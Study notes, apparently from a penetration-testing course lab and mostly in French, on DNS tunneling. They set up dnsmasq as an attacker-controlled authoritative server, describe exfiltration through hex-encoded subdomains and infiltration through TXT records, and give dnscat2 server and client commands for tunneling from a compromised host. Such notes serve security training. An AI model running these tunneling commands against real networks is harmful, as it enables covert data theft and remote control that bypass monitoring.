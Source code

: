 ![[Pasted image 20240118094709.png]]
dnsmasq pour créer un DNS simplement.
zones définies pas auth-zone et auth-server dans dnsmasq.conf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
kali@felineauthority:~/dns_tunneling$ cat dnsmasq.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp

# Lancer dnsmaskq
sudo dnsmasq -C dnsmasq.conf -d
#DNS du client:
resolvectl status
#Flush cache:
resolvectl flush-caches
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![[Pasted image 20240118095351.png]]
The steps where MULTISERVER03 sent queries to the root name serversand TLD name server have been omitted here for simplicity. But in anormal network situation, these steps would precede the request madeto FELINEAUTHORITY.

# Exfiltration
Pourrait écrire de petites données dans le format  ```[hex-string-chunk].feline.corp ```

# Infiltration
Utiliser TXT record

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
kali@felineauthority:~/dns_tunneling$ cat dnsmasq_txt.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp

# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vérification client:
 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
database_admin@pgdatabase01:~$ nslookup -type=txt www.feline.corp
Server:		192.168.50.64
Address:	192.168.50.64#53

Non-authoritative answer:
www.feline.corp	text = "here's something useful!"
www.feline.corp	text = "here's something else less useful."

Authoritative answers can be found from:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 # dnscat2
 Permet d'extraire et d'infiltrer des données avec un client sur une machine compromise
 serveur:```dnscat2-server feline.corp```
 client doit avoir l'application client 
```./dnscat feline.corp```

 utiliser **windows** pour voir les sessions et ```window -i``` pour l'utiliser
 peut faire un port forward avec **listen**
 


